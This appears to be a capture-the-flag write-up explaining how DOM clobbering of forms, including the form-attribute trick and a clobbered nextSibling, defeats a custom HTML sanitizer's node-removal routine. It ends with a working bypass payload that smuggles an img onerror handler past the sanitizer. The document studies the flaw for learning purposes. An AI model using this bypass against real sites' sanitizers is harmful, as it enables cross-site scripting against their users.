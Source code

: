 ``` js
}
```

It references many other sanitizer libraries, such as DOMPurify.

The key to this challenge is the DOM clobbering of forms, which is usually done like this:

``` html
<form id="test">
    <input name=x>
</form>
```

By placing the element inside a form, `test.x` can be polluted.

However, there is another trick using the `form` attribute to place the element outside:

``` html
<input form=test name=x>
<form id="test"></form>
```

In this challenge, when removing elements, the sanitizer does it like this:

``` js
removeNode = (currentNode) => {
    const parentNode = currentNode.parentNode;
    const childNodes = currentNode.childNodes;

    if (childNodes && parentNode) {
        const childCount = childNodes.length;

        for (let i = childCount - 1; i >= 0; --i) {
            parentNode.insertBefore(
                childNodes[i].cloneNode(),
                currentNode.nextSibling
            );
        }
    }

    currentNode.parentElement.removeChild(currentNode);
}
```

It inserts the nodes under the element to be deleted into the parent's `nextSibling`.

Therefore, if the `nextSibling` is clobbered and the following structure is created:

``` html
<input form=test name=nextSibling> 
<form id=test>
  <input name=nodeName>
  <img src=x onerror=alert(1)>
</form>
```

When removing the `<form>`, all the nodes underneath will be inserted after `<input form=test name=nextSibling>`, bypassing the sanitizer.
